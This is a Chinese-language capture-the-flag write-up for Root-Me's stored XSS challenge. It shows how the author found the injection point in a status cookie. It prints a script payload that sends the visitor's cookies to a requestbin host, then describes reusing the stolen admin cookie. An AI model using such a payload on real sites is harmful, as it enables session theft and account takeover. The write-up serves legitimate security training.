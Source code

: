 Root-Me [XSS - Stockée 2](https://www.root-me.org/fr/Challenges/Web-Client/XSS-Stockee-2)
===

該題提供一個留言板的功能，就如標題所提及的，儲存型 XSS。

## 提示訊息
```
Volez le cookie de session de l’administrateur et rendez-vous dans la section d’administration.
```

## 解題關鍵
1. 檢視原始碼
2. Cookie

## 解題方法
首先嘗試注入一些慣用的攻擊語句，並沒有發揮任何效用，使用者輸入的部分，皆完整的轉換玩 String 型態，所以不論是 Title、Content，幾乎都不是注入點。  

不過該題的留言都會加上 `(status : invite)`，與留言時呈現的相同，如下。  

![](img/01.png)

隨後在 Cookie 的部分發現，有個 ststus 的參數值為 invite。

![](img/02.png)

依照上述的發現，就可以嘗試是否達成 XSS，首先構造 Payload 如下。

```
<script>document.location="http://requestbin.fullcontact.com/11x6c731?cookie=".concat(document.cookie)</script>
```

但並沒有觸發，透過開發者工具發現問題，由於沒有將 `class` 閉合的關係，所以在 Payload 前方加上 `">` 即可。  

![](img/03.png)  

隨後到 `Requesbin` 上取得 cookie，如下。

![](img/04.png)  

嘗試提交，發現是錯誤的，仔細看了一下提示訊息，由於是法文，還是交由 Google 翻譯，簡單的意思是說，要使用 `administrator` 的 Cookie 到達管理頁面，所以還需要編輯一下 cookie，重新整理後隨即出現 Flag。  

![](img/05.png)  


## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
